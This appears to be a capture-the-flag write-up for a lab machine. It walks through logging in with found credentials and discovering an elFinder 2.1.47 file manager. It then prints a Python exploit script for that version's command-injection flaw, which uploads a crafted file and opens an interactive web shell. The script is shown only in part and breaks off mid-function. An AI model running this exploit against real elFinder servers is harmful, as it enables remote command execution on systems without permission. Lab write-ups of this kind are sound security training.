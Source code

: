 When we run the script, we get the following:

![](cybersecurity/images/Pasted%2520image%252020241202144135.png)

So, the credentials are: `jose`: `password123`

Let's login and take a look at it:

![](cybersecurity/images/Pasted%2520image%252020241202144230.png)
Once we login, we find a `files.lookup.thm` domain we need to add to `/etc/hosts`, once we've added the domain, this appears:

![](cybersecurity/images/Pasted%2520image%252020241202144345.png)

We got access to a file managing system, let's take a further look: 

![](cybersecurity/images/Pasted%2520image%252020241202144428.png)

After checking the passwords that are in those files, all are useless, so, I decided to check at the info about the webapp, that's were I found that this is running something called `elFinder`, let's search that on searchsploit:

![](cybersecurity/images/Pasted%2520image%252020241202144558.png)

This is running `elfinder 2.1.47` so, we got a command injection vulnerability for this specific version, it is a script written in python, let's look at the script:

![](cybersecurity/images/Pasted%2520image%252020241202144738.png)

This is a script written in python, let's change it to python3 since it's a bit outdated, the script would be the following:

```python
#!/usr/bin/python3

import requests
import json
import sys


def upload(url, payload):
    files = {'upload[]': (payload, open('image_input.jpg', 'rb'))}
    data = {"reqid": "1693222c439f4", "cmd": "upload", "target": "l1_Lw", "mtime[]": "1497726174"}
    r = requests.post(f"{url}/php/connector.minimal.php", files=files, data=data)
    j = json.loads(r.text)
    return j['added'][0]['hash']

def imgRotate(url, hash):
    r = requests.get(f"{url}/php/connector.minimal.php?target={hash}&width=539&height=960&degree=180&quality=100&bg=&mode=rotate&cmd=resize&reqid=169323550af10c")
    return r.text

def shell(url):
    r = requests.get(f"{url}/php/image_input.php")
    if r.status_code == 200:
        print("[+] We're in :)")
        print("[+] Spawning a shell")
        while True:
            try:
                input_command = input("$ ")
                r = requests.get(f"{url}/php/image_input.php?c={input_command}")
                print(r.text)
                if input_command.strip() == "exit":
                    print("\nExiting.....")
                    sys.exit(0)
            except KeyboardInterrupt:
```